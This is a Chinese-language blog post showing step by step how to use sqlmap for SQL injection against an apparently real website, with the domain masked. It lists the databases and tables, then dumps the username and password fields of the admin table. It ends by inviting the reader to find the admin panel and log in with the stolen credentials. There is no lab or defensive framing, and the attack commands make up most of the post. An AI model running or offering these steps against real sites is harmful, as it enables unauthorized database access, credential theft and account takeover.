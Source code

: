 ```yaml
---
title: sqlmap使用实例
date: 2016-02-18 16:22:09
tags: [Web漏洞]
categories: [网络安全]
---
```


## 1. 确定是什么数据库

    sqlmap -u "http://********/about.php?id=5"

**参数:**
    -u: 指定注入点url

**结果:**
![1.png](http://ww3.sinaimg.cn/large/5e515a93jw1f13lc1yxe4j20hw07hq4a.jpg)

如图所示: 数据库是 `MySQL`


<!-- more -->


## 2. 查看当前站点有那些数据库 

    sqlmap -u "http://*********/about.php?id=5" --dbs

**参数**：
    --dbs: dbs前面有两条杠，请看清楚。

**结果:**
![2.png](http://ww1.sinaimg.cn/large/5e515a93jw1f13lbsa2y1j20hz07bta1.jpg)

如图所示： 有 `dbracpro28` 和 `information_schema`两个数据库

## 3. 查看`dbracpro28`数据库中有那些数据表

    sqlmap -u "http://*********/about.php?id=5" --tables -D "dbracpro28"

**参数**：
    --tables: 列出表
    -D: 指定具体数据库 

**结果:**
![3.png](http://ww4.sinaimg.cn/large/5e515a93jw1f13lbhloskj20hz0a875r.jpg)

如图所示: `dbracpro28` 数据看有 34 个表

## 4. 查看 `dbracpro28`数据库中的`admin`表中有那些数据段

    sqlmap -u "http://*********/about.php?id=5" --columns -T "admin"  -D "dbracpro28"

**参数**：
    --columns: 列出字段
    -D: 指定具体数据库
    -T: 指定表 

**结果:**
![4.png](http://ww3.sinaimg.cn/large/5e515a93jw1f13lb6r6trj20i109zwg7.jpg)

如图所示: `admin` 表中有以上 4 个字段

## 5. 查看 `dbracpro28`数据库中的`admin`表中`pwd`和`usernc` 里那些值

    sqlmap -u "http://*********/about.php?id=5" --dump -C "pwd, usernc"  -T "admin"  -D "dbracpro28"

**参数**：
    --dump: 将结果导出
    -D: 指定具体数据库
    -T: 指定表 
    -C: 指定字段

**结果:**
![5.png](http://ww1.sinaimg.cn/large/5e515a93jw1f13lagqwekj20hw07hq4a.jpg)

如图所示: `userna`, 和 `pwd` 就被我们扫出来啦~ 然后找到后台, 用它们愉快的登陆吧~~~ ：）